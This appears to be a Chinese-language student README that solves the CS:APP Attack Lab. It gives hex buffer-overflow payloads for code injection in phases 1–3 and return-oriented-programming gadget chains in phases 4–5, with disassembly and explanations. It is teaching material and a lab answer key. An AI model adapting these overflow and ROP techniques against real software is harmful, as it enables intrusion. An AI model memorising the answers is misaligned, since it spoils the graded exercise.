






# 03 Attack Lab

## 文件内容

- 项目文件：`target1` 
- 实现文件：`target1_my`
    - 其中 `ans` 文件夹内为最终答案

- 相关说明教程：`guide`

## 如何运行

``` sh
# 在 target1_my 目录下
./hex2raw < ans/ans{1..3}.txt | ./ctarget -q
./hex2raw < ans/ans{4,5}.txt | ./rtarget -q
```

## 题目分析

- `phase_1~3` 需使用代码注入攻击（code injection attacks）
    - 对应文件：`ctarget`

- `phase_4~5` 需使用ROP攻击（return-oriented programming attacks）
    - 对应文件：`rtarget`（加入栈随机化和禁止栈执行）


### phase_1

#### 目标

利用缓冲区溢出使得 `test()` 中 `getbuf()` 返回时调用 `touch1()`

``` cpp
void test()
{
    int val;
    val = getbuf();
    printf("NO exploit. Getbuf returned 0x%x\n", val);
}

void touch1()
{
    vlevel = 1;
    printf("Touch1!: You called touch1()\n");
    validate(1);
    exit(0);
}
```

#### 分析

这题暂时不需要代码注入，反汇编后很容易发现 `getbuf()` 栈大小为 `0x28(40)` 个字节，`test()` 栈帧顶部为返回地址，只要让缓冲区溢出改写改地址为 `touch1()` 第一条指令地址即可

#### 答案

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00 /* touch1() */
```

### phase_2

#### 目标

类似地，只不过调用 `touch2()` 的同时需传入参数（即改变 `%rdi` 寄存器的值）

``` cpp
void touch2(unsigned val)
{
    vlevel = 2;
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

#### 分析

需要改变寄存器的值就需要额外执行指令，那么就可以将汇编指令转为机器码写入栈中，再用 `gdb` 查看栈顶地址，将返回地址改写为栈顶地址，这样就能运行期望的指令了。

#### 答案

```
48 c7 c7 fa 97 b9 59 68 /* mov  $0x59b997fa, %rdi;   pushq  $0x4017ec;   ret */
ec 17 40 00 c3 00 00 00 /* 0x004017ec is the address of touch2()             */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 /* address of Line 1 */
```

### phase_3

#### 目标

这一回调用 `touch3()` 时需要传入的参数是指针，字符串内容为 `cookie`

``` cpp
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval)
{
    vlevel = 3;
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```

#### 分析

首先 `cookie` 转为 `ASCII` 不必多言，关键是字符串存储在何处，若简单地存放在 `getbuf()` 栈中，返回之后调用 `touch3()` 和 `hexmatch()` 时可能会覆盖（当然本题计算这两个函数栈大小也可以）那么就可以考虑将字符存储在 `text()` 的栈帧中，就不存在覆盖问题了，其余和 `phase_2` 大同小异。

#### 答案

```
48 c7 c7 a8 dc 61 55 68 /* mov  $0x5561dca8, %rdi;   pushq  $0x4018fa;   ret */
fa 18 40 00 c3 00 00 00 /* 0x5561dca8 is the address of cookie(Line 7)       */
00 00 00 00 00 00 00 00 /* 0x004018fa is the address of touch3()             */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 /* address of Line 1 */
35 39 62 39 39 37 66 61 /* cookie(ASCII)     */
00 00 00 00 00 00 00 00
```

### phase_4

#### 目标

本题要实现 `phase_2` 一样的目标，只不过由于禁止栈执行，不能使用代码注入的方法。

#### 分析

先简单介绍一下ROP攻击的原理，比如我们汇编代码中有这样一个函数：

``` assembly
00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq   
```

但如果从地址 `0x4019c5` 开始读取机器码，就变成了 `48 89 c7 90 c3`，翻译成汇编代码就是 `movq   %rax, %rdi`，这样的机器码片段称之为 `gadget`，又由于 `retq` 等价于 `popq   %rip`，就可以在栈中写入 `gadget` 的地址来调用。ROP攻击就是在代码中寻找合适的 `gadget` 拼接起来，从而不注入代码，却能执行我们想要的指令。

- 可能用到的指令对应的机器码如下：（`ret` 是 `0xc3`，`nop` 是 `0x90`）



`phase_4~5` 都要求在指定的 `farm` 范围内寻找 `gadget`，本题 `farm` 如下：

``` assembly
000000000040199a <getval_142>:
  40199a:	b8 fb 78 90 90       	mov    $0x909078fb,%eax
  40199f:	c3                   	retq   

00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq   

00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq   

00000000004019ae <setval_237>:
  4019ae:	c7 07 48 89 c7 c7    	movl   $0xc7c78948,(%rdi)
  4019b4:	c3                   	retq   

00000000004019b5 <setval_424>:
  4019b5:	c7 07 54 c2 58 92    	movl   $0x9258c254,(%rdi)
  4019bb:	c3                   	retq   

00000000004019bc <setval_470>:
  4019bc:	c7 07 63 48 8d c7    	movl   $0xc78d4863,(%rdi)
  4019c2:	c3                   	retq   

00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq   

00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	retq
```

首先，由于地址是个常数，只能使用 `popq` 指令，对应机器码范围在 `58 - 5f`，可以看到 `0x4019cc` 处就满足要求，对应寄存器是 `%rax`，再寻找 `movq   %rax, %rdi`，发现 `0x4019c5` 处恰好满足，那么本题就解决了。

#### 答案

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00 /* popq   %rax       */
fa 97 b9 59 00 00 00 00 /* cookie            */
c5 19 40 00 00 00 00 00 /* movq   %rax, %rdi */
ec 17 40 00 00 00 00 00 /* touch2()          */
```

### phase_5

#### 目标

本题要实现 `phase_3` 一样的目标，只不过由于栈随机化和禁止栈执行，无法简单确定字符串地址，也不能使用代码注入的方法。

#### 分析

本题与 `phase_4` 相比，增加了以下 `farm` ：

``` assembly
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq   

00000000004019db <getval_481>:
  4019db:	b8 5c 89 c2 90       	mov    $0x90c2895c,%eax
  4019e0:	c3                   	retq   

00000000004019e1 <setval_296>:
  4019e1:	c7 07 99 d1 90 90    	movl   $0x9090d199,(%rdi)
  4019e7:	c3                   	retq   

00000000004019e8 <addval_113>:
  4019e8:	8d 87 89 ce 78 c9    	lea    -0x36873177(%rdi),%eax
  4019ee:	c3                   	retq   

00000000004019ef <addval_490>:
  4019ef:	8d 87 8d d1 20 db    	lea    -0x24df2e73(%rdi),%eax
  4019f5:	c3                   	retq   

00000000004019f6 <getval_226>:
  4019f6:	b8 89 d1 48 c0       	mov    $0xc048d189,%eax
  4019fb:	c3                   	retq   

00000000004019fc <setval_384>:
  4019fc:	c7 07 81 d1 84 c0    	movl   $0xc084d181,(%rdi)
  401a02:	c3                   	retq   

0000000000401a03 <addval_190>:
  401a03:	8d 87 41 48 89 e0    	lea    -0x1f76b7bf(%rdi),%eax
  401a09:	c3                   	retq   

0000000000401a0a <setval_276>:
  401a0a:	c7 07 88 c2 08 c9    	movl   $0xc908c288,(%rdi)
  401a10:	c3                   	retq   

0000000000401a11 <addval_436>:
  401a11:	8d 87 89 ce 90 90    	lea    -0x6f6f3177(%rdi),%eax
  401a17:	c3                   	retq   

0000000000401a18 <getval_345>:
  401a18:	b8 48 89 e0 c1       	mov    $0xc1e08948,%eax
  401a1d:	c3                   	retq   

0000000000401a1e <addval_479>:
  401a1e:	8d 87 89 c2 00 c9    	lea    -0x36ff3d77(%rdi),%eax
  401a24:	c3                   	retq   

0000000000401a25 <addval_187>:
  401a25:	8d 87 89 ce 38 c0    	lea    -0x3fc73177(%rdi),%eax
  401a2b:	c3                   	retq   

0000000000401a2c <setval_248>:
  401a2c:	c7 07 81 ce 08 db    	movl   $0xdb08ce81,(%rdi)
  401a32:	c3                   	retq   

0000000000401a33 <getval_159>:
  401a33:	b8 89 d1 38 c9       	mov    $0xc938d189,%eax
  401a38:	c3                   	retq   

0000000000401a39 <addval_110>:
  401a39:	8d 87 c8 89 e0 c3    	lea    -0x3c1f7638(%rdi),%eax
  401a3f:	c3                   	retq   

0000000000401a40 <addval_487>:
  401a40:	8d 87 89 c2 84 c0    	lea    -0x3f7b3d77(%rdi),%eax
  401a46:	c3                   	retq   

0000000000401a47 <addval_201>:
  401a47:	8d 87 48 89 e0 c7    	lea    -0x381f76b8(%rdi),%eax
  401a4d:	c3                   	retq   

0000000000401a4e <getval_272>:
  401a4e:	b8 99 d1 08 d2       	mov    $0xd208d199,%eax
  401a53:	c3                   	retq   

0000000000401a54 <getval_155>:
  401a54:	b8 89 c2 c4 c9       	mov    $0xc9c4c289,%eax
  401a59:	c3                   	retq   

0000000000401a5a <setval_299>:
  401a5a:	c7 07 48 89 e0 91    	movl   $0x91e08948,(%rdi)
  401a60:	c3                   	retq   

0000000000401a61 <addval_404>:
  401a61:	8d 87 89 ce 92 c3    	lea    -0x3c6d3177(%rdi),%eax
  401a67:	c3                   	retq   

0000000000401a68 <getval_311>:
  401a68:	b8 89 d1 08 db       	mov    $0xdb08d189,%eax
  401a6d:	c3                   	retq   

0000000000401a6e <setval_167>:
  401a6e:	c7 07 89 d1 91 c3    	movl   $0xc391d189,(%rdi)
  401a74:	c3                   	retq   

0000000000401a75 <setval_328>:
  401a75:	c7 07 81 c2 38 d2    	movl   $0xd238c281,(%rdi)
  401a7b:	c3                   	retq   

0000000000401a7c <setval_450>:
  401a7c:	c7 07 09 ce 08 c9    	movl   $0xc908ce09,(%rdi)
  401a82:	c3                   	retq   

0000000000401a83 <addval_358>:
  401a83:	8d 87 08 89 e0 90    	lea    -0x6f1f76f8(%rdi),%eax
  401a89:	c3                   	retq   

0000000000401a8a <addval_124>:
  401a8a:	8d 87 89 c2 c7 3c    	lea    0x3cc7c289(%rdi),%eax
  401a90:	c3                   	retq   

0000000000401a91 <getval_169>:
  401a91:	b8 88 ce 20 c0       	mov    $0xc020ce88,%eax
  401a96:	c3                   	retq   

0000000000401a97 <setval_181>:
  401a97:	c7 07 48 89 e0 c2    	movl   $0xc2e08948,(%rdi)
  401a9d:	c3                   	retq   

0000000000401a9e <addval_184>:
  401a9e:	8d 87 89 c2 60 d2    	lea    -0x2d9f3d77(%rdi),%eax
  401aa4:	c3                   	retq   

0000000000401aa5 <getval_472>:
  401aa5:	b8 8d ce 20 d2       	mov    $0xd220ce8d,%eax
  401aaa:	c3                   	retq   

0000000000401aab <setval_350>:
  401aab:	c7 07 48 89 e0 90    	movl   $0x90e08948,(%rdi)
  401ab1:	c3                   	retq
```

由于栈随机化，不能简单像 `phase_3` 中一样传入固定地址，于是考虑读取当前 `%rsp` 加上一定偏移量传入参数，发现新增 `farm` 第一个就是 `leaq` 指令，于是利用这个来计算地址，其余 `movq`，`movl`，`popq` 等指令慢慢捣鼓一会就出来了，具体可以看下方答案注释。

值得关注的一点是第9行偏移值这个常数，关键是 `%rsp` 的位置，一开始我错误地认为指向第六行，计算出来常数是80，但出错了。后来才意识到第六行相当于原来函数返回地址，`ret` 之后 `%rsp + 8`，所以此时 `%rsp` 相当于指向第7行，因此常数是72。

#### 答案

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00 /* movq   %rsp, %rax             */
c5 19 40 00 00 00 00 00 /* movq   %rax, %rdi [%rsp here] */
cc 19 40 00 00 00 00 00 /* popq   %rax                   */
48 00 00 00 00 00 00 00 /* Constant: 72(0x48)            */
42 1a 40 00 00 00 00 00 /* movl   %eax, %edx             */
69 1a 40 00 00 00 00 00 /* movl   %edx, %ecx             */
27 1a 40 00 00 00 00 00 /* movl   %ecx, %esi             */
d6 19 40 00 00 00 00 00 /* leaq   (%rdi, %rsi, 1), %rax  */
c5 19 40 00 00 00 00 00 /* movq   %rax, %rdi             */
fa 18 40 00 00 00 00 00 /* touch3()                      */
35 39 62 39 39 37 66 61 /* cookie (in ASCII)             */
00 00 00 00 00 00 00 00
```

## 结果

### phase_1



### phase_2



### phase_3



### phase_4



### phase_5

